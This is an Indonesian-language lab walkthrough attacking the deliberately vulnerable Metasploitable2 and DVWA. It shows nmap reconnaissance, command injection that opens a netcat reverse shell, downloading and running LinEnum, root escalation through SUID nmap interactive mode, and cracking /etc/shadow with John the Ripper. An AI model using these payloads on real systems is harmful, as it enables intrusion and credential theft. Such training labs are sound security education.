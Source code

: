 # Introduction

**Reverse Shell** adalah metode di mana sebuah mesin target (korban) dipaksa untuk memulai koneksi jaringan keluar kembali ke mesin penyerang. Setelah koneksi terbentuk, penyerang mendapatkan akses ke shell perintah (misalnya, bash atau sh) dari mesin target.

Reverse shell sangat disukai oleh penyerang karena:

- Mengatasi Firewall: Banyak firewall hanya memblokir koneksi masuk (inbound), tetapi mengizinkan koneksi keluar (_outbound_). Reverse shell memanfaatkan celah ini.

- Mengatasi NAT: Jika server target berada di belakang NAT (_Network Address Translation_), akan sulit untuk membuat koneksi langsung masuk. Reverse shell mengatasi masalah ini dengan membuat koneksi dari dalam.

**Privilege Escalation** adalah proses di mana seorang penyerang mendapatkan tingkat hak akses yang lebih tinggi pada sistem atau jaringan yang telah berhasil ditembus. Jika dianalogikan, _Privilege Escalation_ adalah seperti menemukan pintu masuk ke sebuah gedung, lalu mencari kunci untuk membuka semua ruangan penting di dalamnya, termasuk ruang kontrol utama.

**1. _Reconnaissence_**

- Analisis jaringan yang sedang dipakai untuk mengetahui IP yang digunakan

```
ifconfig
```
- Memindai seluruh jaringan internal yang saling terhubung untuk mencari target
```
nmap -sn <ip_range>

Ex. nmap -sn 192.168.1.0/24   //scanning the whole connected divices
```
**2. _Scanning and Enumeration_**

- Memindai port server, yaitu 80 (http) dan 443 (https) pada IP target
```
nmap -p 80,443 --script=http-enum <ip_metasploitable>
```
Script _http-enum_ digunakan untuk membantu menemukan direktori yang tersembunyi.
```
PORT    STATE  SERVICE
80/tcp  open   http
| http-enum: 
|   /tikiwiki/: Tikiwiki
|   /test/: Test page
|   /phpinfo.php: Possible information file
|   /phpMyAdmin/: phpMyAdmin
|   /doc/: Potentially interesting directory w/ listing on 'apache/2.2.8 (ubuntu) dav/2'
|   /icons/: Potentially interesting folder w/ directory listing
|_  /index/: Potentially interesting folder
443/tcp closed https
```
- Eksplorasi Web Server menggunakan browser
```
<ip_metasploitable>/dvwa
```
Kita akan menggunakan **Damn Vulnerable Web Application** (DVWA) sebagai sistem untuk melakukan simulasi serangan melalui **Command Injection**

**3. _Gaining Access (Exploitation)_**
- Login ke DVWA
```
username : admin
password : password
```
- Merubah security level ke low
```
DVWA Security -> Script Security -> Low -> Submit
```
- Mencoba command injection/execution
```
<ip_metaploitable>; ls -la
```
Menambahkan perintah lain setelah alamat IP dengan menggunakan simbol ; (titik koma) memungkinkan server menjalankan perintah berikutnya.
```
PING 192.168.175.90 (192.168.175.90) 56(84) bytes of data.
64 bytes from 192.168.175.90: icmp_seq=1 ttl=64 time=0.068 ms
64 bytes from 192.168.175.90: icmp_seq=2 ttl=64 time=0.083 ms

--- 192.168.175.90 ping statistics ---
3 packets transmitted, 3 received, 0% packet loss, time 1998ms
rtt min/avg/max/mdev = 0.068/0.073/0.083/0.007 ms
total 72
drwxr-xr-x  4 www-data www-data  4096 Aug 11 02:58 .
drwxr-xr-x 11 www-data www-data  4096 May 20  2012 ..
drwxr-xr-x  2 www-data www-data  4096 May 20  2012 help
-rw-r--r--  1 www-data www-data  1509 Mar 16  2010 index.php
drwxr-xr-x  2 www-data www-data  4096 May 20  2012 source
```
- Mendapatkan revese shell

Kali linux:
```
nc -lsvp <port_listener>
```
Perintah ini mengubah mesin Kali Linux menjadi "penerima" yang siap menerima shell dari mesin target.

Command execution:

```
<ip_metasploitable>; nc -e /bin/sh/ <ip_kali_linux> <port_listener>
```
Opsi -e (_execute_) memberitahu Netcat untuk menjalankan program yang ditentukan setelah koneksi berhasil dibuat. /bin/sh adalah shell perintah (biasanya dash atau bash yang ditautkan ke sh) di sistem Linux. Jadi, nc -e /bin/sh berarti "setelah koneksi jaringan terjalin, jalankan /bin/sh dan arahkan _input/output_ shell tersebut ke koneksi jaringan."

```
┌──(kali㉿kali)-[~]
└─$ nc -lvnp 4444                                   
listening on [any] 4444 ...
connect to [192.168.175.235] from (UNKNOWN) [192.168.175.90] 40263

```

**4. _Maintaining accsess dan Post exploitation_**
- Verifikasi user atau akses root
```
whoami
```

- Eksplorasi sistem

```
ls -l                    //melihat list file dan direktory
```
```
cat /etc/passwd          //melihat daftar user
```
```
find / -name “web.xml”		//mencari file penting
```
5. **_Privilege escalation_**

- Mencari kerentanan untuk privilege escalation

Metode 1 : langsung menggunakan reverse shell yang didapat
```
wget https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh
```
Skrip **LinEnum.sh** tidak mengeksploitasi kerentanan secara langsung, melainkan berfungsi sebagai detektif yang mengumpulkan bukti. Ia mencari konfigurasi yang lemah dan kerentanan yang dapat dimanfaatkan untuk mendapatkan hak akses root.
```
ls -l      //cek apakah file sudah ter-download atau tidak
```
```
chmod +x LinEnum.sh    //tambahkan hak akses untuk execute file
```
```
./LinEnum.sh
```

Metode 2 : transfer manual dari kali linux

Buka terminal baru di Kali Linux
```
wget https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh
```

Siapkan listener di sisi reverse shell
```
nc -l -p 4445 > LinEnum.sh
```
Kirimkan file hasil donwload kali linux ke reverse shell
```
cat LinEnum.sh | nc <ip_Metasploitable> 4445
```
Ctrl + C untuk menghentikan proses apabila sudah selesai

Cek kembali di sisi reverse shell apakah file sudah berhasil ditransfer
```
ls -l
```
```
chmod +x LinEnum.sh    //tambahkan hak akses untuk execute file
```
```
./LinEnum.sh
```

```
[-] Debug Info
[+] Thorough tests = Disabled

...
[-] Kernel information:
Linux metasploitable 2.6.24-16-server #1 SMP Thu Apr 10 13:58:00 UTC 2008 i686 GNU/Linux
[-] Kernel information (continued):
Linux version 2.6.24-16-server (buildd@palmer) (gcc version 4.2.3 (Ubuntu 4.2.3-2ubuntu7)) #1 SMP Thu Apr 10 13:58:00 UTC 2008

[+] We can sudo without supplying a password!
usage: sudo -h | -K | -k | -L | -l | -V | -v
usage: sudo [-bEHPS] [-p prompt] [-u username|#uid] [VAR=value]
            {-i | -s | <command>}
usage: sudo -e [-S] [-p prompt] [-u username|#uid] file ...
[+] Possibly interesting SUID files:
-rwsr-xr-- 1 root dhcp 2960 Apr  2  2008 /lib/dhcp3-client/call-dhclient-script
-rwsr-xr-x 1 root root 780676 Apr  8  2008 /usr/bin/nmap
...
```
Manfaatkan kerentanan pada **usr/bin/nmap** karena versi Nmap yang lama memiliki mode interaktif (_--interactive_) yang memungkinkan pengguna menjalankan perintah shell dengan hak akses root. Saat menjalankan Nmap dalam mode interaktif (_--interactive_), pengguna akan mendapatkan prompt nmap>. Pada titik ini, Nmap tidak lagi berfungsi sebagai pemindai, tetapi sebagai antarmuka interaktif yang dapat mengeksekusi perintah-perintah internalnya sendiri. Jadi, ketika pengguna mengetik !sh atau !bash, pengguna memberitahu Nmap untuk "jalankan shell baru untuk saya".
- Eksploitasi akses root pada celah ini
```
/usr/bin/nmap -–interactive
```
```
nmap> !sh
```
- Cek hak akses user setelah  eksploitasi
```
whoami
```
Jika berhasil, maka hak akses akan berubah menjadi root user

**6. _Cracking Password_**

- Memanfaatkan akses root untuk mendapatkan password
```
cat /etc/shadow/
```
- Buka terminal baru (kali linux) dan paste isi file tersebut ke file yang baru
```
sudo nano <file_password>.txt
```
- _Cracking_ file password menggunakan JohnTheRipper
```
john –-wordlist=<directory_wordlist> <file_password>.txt
```
```
john --wordlist=/usr/share/wordlists/rockyou.txt shadow.txt
```
Jika ingin menggunakan **rockyou.txt**, pastikan sudah di ungzip sebelumnya supaya file bisa digunakan.

John the Ripper akan mencoba mencocokkan hash dengan kata-kata dalam daftar dan akan menampilkan kata sandi yang berhasil di-_crack_ di layar. Jika berhasil, pengguna akan mendapatkan kata sandi dalam bentuk teks biasa (misalnya, msfadmin atau toor).
